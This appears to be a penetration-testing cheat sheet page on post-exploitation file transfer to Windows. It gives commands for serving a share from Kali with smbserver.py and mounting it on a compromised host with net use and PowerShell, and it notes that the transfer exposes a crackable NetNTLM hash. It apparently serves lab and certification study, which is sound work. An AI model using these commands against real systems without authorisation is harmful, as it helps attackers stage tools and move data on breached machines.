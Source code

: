 # File transfer

{% embed url="https://ironhackers.es/en/cheatsheet/transferir-archivos-post-explotacion-cheatsheet/" %}

## Windows

#### [https://blog.ropnop.com/transferring-files-from-kali-to-windows/#smb](https://blog.ropnop.com/transferring-files-from-kali-to-windows/#smb)

[ttps://butter0verflow.github.io/oscp/OSCP-WindowsPrivEsc-Part1/](https://butter0verflow.github.io/oscp/OSCP-WindowsPrivEsc-Part1/)

[https://cheatsheet.haax.fr/windows-systems/exploitation/file\_transfer/](https://cheatsheet.haax.fr/windows-systems/exploitation/file_transfer/)

### smbserver

{% hint style="info" %}
We can use -user -password with the real credentials of the Windows session so we do not need to use or create a disk unit like Z:\\
{% endhint %}

<pre class="language-bash" data-overflow="wrap" data-full-width="true"><code class="lang-bash"># SMB SERVER (smbserver.py)
NOTE: If it does not work maybe setting user/pass for the server is mandatory
<strong>
</strong><strong>sudo smbserver.py share . -smb2support -user USER -password PASSWORD # Kali
</strong>net use $DRIVE: \\$IP\$SHARE /USER:USER PASSWORD # DRIVE may be z: for example
cp $FILE $DRIVE:
# From Windows we can use net view \\$IP to see the shared folder.
copy \\$IP\share\file.txt . 
# Disconnect the share when we finish
net use Z: /del
net use \\$IP\$SHARE /del
# NOTE: The hash we see when we tranfer files is NetNTLM. We can try to crack it but cannot be used for PTH.

# On Powershell:
$pass = converto-securestring 'hackthebox' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential('antz', $pass) 
New-PSDrive -Name antz -PSProvider FileSystem -Credential $cred -Root \\10.10.14.20\share
</code></pre>
